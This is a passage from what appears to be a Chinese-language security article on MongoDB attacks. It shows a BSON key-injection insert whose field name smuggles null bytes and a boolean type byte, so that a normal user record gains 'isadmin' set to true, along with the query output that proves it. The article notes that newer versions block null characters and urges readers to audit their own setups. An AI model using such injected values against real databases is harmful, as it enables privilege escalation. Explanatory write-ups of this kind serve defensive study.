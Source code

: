 再插入一条列名为BSON对象的数据：

```
db.test.insert({ "name\x16\x00\x08isadmin\x00\x01\x00\x00\x00\x00\x00" : "noadmin2", "isadmin" : false})

```

isadmin之前的0x08是指该数据类型是布尔型，后面的0x01是把这个值设定为1。

这时再查询就回发现isadmin变为的true：

```
> db.test.find({})
{ "_id" : ObjectId("5044ebc3a91b02e9a9b065e1"), "name" : "admin", "isadmin" : true }
{ "_id" : ObjectId("5044ebc3a91b02e9a9b065e1"), "name" : "noadmin", "isadmin" : false }
{ "_id" : ObjectId("5044ebf6a91b02e9a9b065e3"), "name" : null, "isadmin" : true, "isadmin" : true } 

```

不过测试最新版的mongodb中，禁止了空字符。

![enter image description here](http://drops.javaweb.org/uploads/images/50bf02d94c1998c773b5632308b57a500a63ca03.jpg)

当然了 我也觉得此类攻击有点YY。。。

0x02 总结
-------

* * *

本文列举了四种攻击mongodb的方式。

当然这并不是安全否认mongodb的安全性，只是构造了集中可能存在攻击的场景。

希望大家看到后能够自查一下，以免受到攻击。

还有一些wofeiwo在2011年的时候就已经写过：

[Mongodb安全性初探](http://www.phpweblog.net/GaRY/archive/2011/08/18/Mongodb_secuirty_anaylze.html)